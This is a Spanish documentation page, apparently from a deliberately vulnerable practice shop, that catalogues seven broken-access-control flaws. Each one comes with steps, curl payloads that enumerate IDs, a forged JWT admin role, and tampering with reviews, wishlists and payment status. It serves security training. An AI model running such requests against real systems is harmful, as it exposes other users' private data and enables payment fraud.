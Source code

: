 ```yaml
---
layout: default
title: Broken Access Control
nav_order: 7
parent: Vulnerabilidades
---
```


# Broken Access Control

## 7.1 IDOR en Perfiles de Usuario
- **Ubicación**: `/api/v1/users/{id}` y `/api/v1/users/{id}/profile`
- **Descripción**: Acceso directo a perfiles de usuario mediante manipulación de ID
- **Pasos**:
  1. Obtener ID propio del perfil
  2. Modificar ID en requests subsecuentes
  3. Enumerar IDs secuencialmente
  4. Acceder a información sensible
- **Payload de ejemplo**:
  ```bash
  # Obtener perfil propio
  curl http://cybershop.example.com/api/v1/users/123/profile

  # Acceder a otros perfiles
  curl http://cybershop.example.com/api/v1/users/124/profile
  curl http://cybershop.example.com/api/v1/users/125/profile
  ```
- **Criterio de éxito**: Acceso a perfiles de otros usuarios
- **Impacto**: Violación de privacidad, robo de información personal

## 7.2 Bypass de Autorización en Panel Admin
- **Ubicación**: `/api/v1/admin/*` y `/api/v1/management/*`
- **Descripción**: Verificación inadecuada de roles y privilegios
- **Pasos**:
  1. Identificar endpoints administrativos
  2. Modificar headers de autorización
  3. Bypass de verificación de roles
  4. Acceder a funcionalidades admin
- **Payload de ejemplo**:
  ```bash
  # Request normal
  curl -H "Authorization: Bearer user_token" \
    http://cybershop.example.com/api/v1/admin/users

  # Modificar rol en token JWT
  # Token original: {"role": "user"}
  # Token modificado: {"role": "admin"}
  curl -H "Authorization: Bearer admin_token" \
    http://cybershop.example.com/api/v1/admin/users
  ```
- **Criterio de éxito**: Acceso a funciones administrativas
- **Impacto**: Escalación de privilegios, control total del sistema

## 7.3 Control de Acceso Horizontal en Órdenes
- **Ubicación**: `/api/v1/orders/{id}` y `/api/v1/orders/{id}/details`
- **Descripción**: Falta de validación en propiedad de recursos
- **Pasos**:
  1. Realizar una compra propia
  2. Obtener ID de la orden
  3. Modificar ID para acceder a otras órdenes
  4. Enumerar órdenes secuencialmente
- **Payload de ejemplo**:
  ```bash
  # Acceder a orden propia
  curl http://cybershop.example.com/api/v1/orders/456

  # Acceder a órdenes ajenas
  curl http://cybershop.example.com/api/v1/orders/457
  curl http://cybershop.example.com/api/v1/orders/458
  ```
- **Criterio de éxito**: Acceso a órdenes de otros usuarios
- **Impacto**: Violación de privacidad, exposición de datos de compra

## 7.4 Bypass en Sistema de Reseñas
- **Ubicación**: `/api/v1/products/{id}/reviews`
- **Descripción**: Control de acceso inadecuado en gestión de reseñas
- **Pasos**:
  1. Publicar reseña propia
  2. Identificar ID de reseña
  3. Modificar o eliminar reseñas ajenas
  4. Bypass de verificación de autor
- **Payload de ejemplo**:
  ```bash
  # Modificar reseña ajena
  curl -X PUT http://cybershop.example.com/api/v1/products/1/reviews/789 \
    -d '{"rating": 1, "comment": "Modificado sin autorización"}'

  # Eliminar reseña ajena
  curl -X DELETE http://cybershop.example.com/api/v1/products/1/reviews/789
  ```
- **Criterio de éxito**: Manipulación de reseñas ajenas
- **Impacto**: Manipulación de reputación, fraude en reviews

## 7.5 Lista de Deseos Sin Restricciones
- **Ubicación**: `/api/v1/wishlist/{id}`
- **Descripción**: Acceso y modificación de listas de deseos ajenas
- **Pasos**:
  1. Crear lista de deseos propia
  2. Obtener ID de lista
  3. Acceder a listas ajenas
  4. Modificar contenido sin autorización
- **Payload de ejemplo**:
  ```bash
  # Acceder a lista ajena
  curl http://cybershop.example.com/api/v1/wishlist/321

  # Modificar lista ajena
  curl -X PUT http://cybershop.example.com/api/v1/wishlist/321 \
    -d '{"items": [{"id": 999, "quantity": 10}]}'
  ```
- **Criterio de éxito**: Manipulación de listas ajenas
- **Impacto**: Violación de privacidad, manipulación de datos

## 7.6 Chat de Soporte Vulnerable
- **Ubicación**: `/api/v1/support/chat/{id}`
- **Descripción**: Acceso no autorizado a conversaciones de soporte
- **Pasos**:
  1. Iniciar chat de soporte
  2. Obtener ID de conversación
  3. Acceder a chats ajenos
  4. Leer mensajes privados
- **Payload de ejemplo**:
  ```bash
  # Acceder a chat propio
  curl http://cybershop.example.com/api/v1/support/chat/159

  # Acceder a chats ajenos
  curl http://cybershop.example.com/api/v1/support/chat/160
  curl http://cybershop.example.com/api/v1/support/chat/161
  ```
- **Criterio de éxito**: Acceso a conversaciones privadas
- **Impacto**: Fuga de información sensible, violación de privacidad

## 7.7 Gestión de Pagos Insegura
- **Ubicación**: `/api/v1/payments/{id}`
- **Descripción**: Control de acceso débil en información de pagos
- **Pasos**:
  1. Realizar un pago propio
  2. Obtener ID de transacción
  3. Acceder a pagos ajenos
  4. Modificar estados de pago
- **Payload de ejemplo**:
  ```bash
  # Ver detalles de pago ajeno
  curl http://cybershop.example.com/api/v1/payments/753

  # Modificar estado de pago
  curl -X PUT http://cybershop.example.com/api/v1/payments/753 \
    -d '{"status": "completed", "amount": 0.01}'
  ```
- **Criterio de éxito**: Manipulación de pagos ajenos
- **Impacto**: Fraude financiero, manipulación de transacciones
